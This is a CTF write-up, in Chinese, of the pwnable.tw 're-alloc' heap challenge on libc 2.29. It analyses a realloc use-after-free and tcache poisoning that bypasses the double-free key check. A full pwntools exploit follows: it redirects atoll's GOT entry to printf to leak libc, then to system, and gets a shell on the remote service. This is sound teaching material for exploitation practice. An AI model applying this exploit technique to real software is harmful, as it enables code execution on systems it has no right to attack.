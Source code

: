 ## re-alloc

### 题目分析

题目是libc2.29的菜单题，整道题申请和释放堆块使用的都是realloc函数。主要考察的也是在各种情况下realloc函数的执行情况。另外题目也考察了对于2.29的tcache的利用。主要是覆盖bk指针来绕过对于double free的检查。

### 漏洞分析

题目的漏洞点在于reallocate函数中，如果输入的size为0就会将chunk free掉，但是函数并没有清空指针造成了UAF。

```c
printf("Index:");
v1 = read_long();
if ( v1 > 1 || !heap[v1] )
return puts("Invalid !");
printf("Size:");
size = read_long();
if ( size > 0x78 )
return puts("Too large!");

v3 = realloc((void *)heap[v1], size);// size = 0，UAF 
if ( !v3 )
return puts("alloc error");
heap[v1] = v3;
printf("Data:");
return read_input(heap[v1], size);
```

### 漏洞利用

因为整个题目没有show函数，所以要先考虑泄露。因为chunk是否在bins中是不会影响realloc函数进行size的比较的所以，当通过UAF拿到一块在bins中的chunk时，再对这块chunk进行realloc返回的仍然是这块chunk的地址，所以通过reallocte这个函数对bins中的chunk的next指针进行修改。

```c
 v3 = realloc((void *)heap[v1], size);// newsize = chunk_size时仍然返回原指针
 if ( !v3 )
   return puts("alloc error");
 heap[v1] = v3;
 printf("Data:");
 return read_input(heap[v1], size);//输入相同的size可以对chunk进行edit
```

这样操作之后，再把原chunk申请出来，tcache中的下一块chunk就是目标地址的chunk。

在不同大小的tcache bin中进行以上操作，就可以的到两个指向目标地址的tcahce chunk。

目标地址设置为atoll函数的got。这样的话利用这两个chunk就可以修改两次atoll的got。第一次修改为printf的plt，可以利用格式化字符漏洞泄露libc。

第二次就可以直接将atoll的got修改为system的地址，然后拿到shell。

### EXP：



```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./re-alloc"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=[]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("chall.pwnable.tw",10106)
    libc=ELF("./libc.so.6")
def get_base(a):
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    for key in a.libs():
        if "libc.so.6" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *0x00040170C
    '''
    '''
    b *0x0040129A
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("Your choice: ",str(idx))

def add(idx,size,payload):
    menu(1)
    a.sendlineafter("Index:",str(idx))
    a.sendlineafter("Size:",str(size))
    a.sendlineafter("Data:",payload)
    return 

def delete(idx):
    menu(3)
    a.sendlineafter("Index:",str(idx))
    return 
    
def realloc(idx,size,content):
    menu(2)
    a.sendlineafter("Index:",str(idx))
    a.sendlineafter("Size:",str(size))
    if size:
        a.sendlineafter("Data:",content)
    return 
    
def show(idx):
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33


add(0,0x58,"aaa")
realloc(0,0,"aaa")
realloc(0,0x58,p64(elf.got["atoll"]))#cover the next 
add(1,0x58,"aaa")
realloc(1,0x20,"bbb")
delete(0)
realloc(1,0x20,'a' * 0x10)
delete(1)#这里不会触发double free的检查因为前面的realloc已经把bk位置的key覆盖掉了。

add(0,0x10,"aaa")
realloc(0,0,"aaa")
realloc(0,0x10,p64(elf.got["atoll"]))#cover the next 
add(1,0x10,"aaa")
realloc(1,0x40,"bbb")
delete(0)
#debug()
realloc(1,0x40,'a' * 0x10)
delete(1)#获得两个指向atoll_got的tcache bin，要在两个大小不同的bin中进行

add(0,0x58,p64(elf.plt["printf"]))
menu(1)
a.sendlineafter("Index:","%6$p")
a.recvuntil("0x")
libc_base = int(a.recv(12),16) - libc.sym["_IO_2_1_stdout_"]
fuck(libc_base)#leak libc_base

menu(1)
a.sendafter("Index:","a")
a.sendafter("Size:",'a'*0x10)
a.sendlineafter("Data:",p64(libc_base + libc.sym["system"]))

menu(1)
a.sendafter("Index:","/bin/sh")
a.interactive()
```

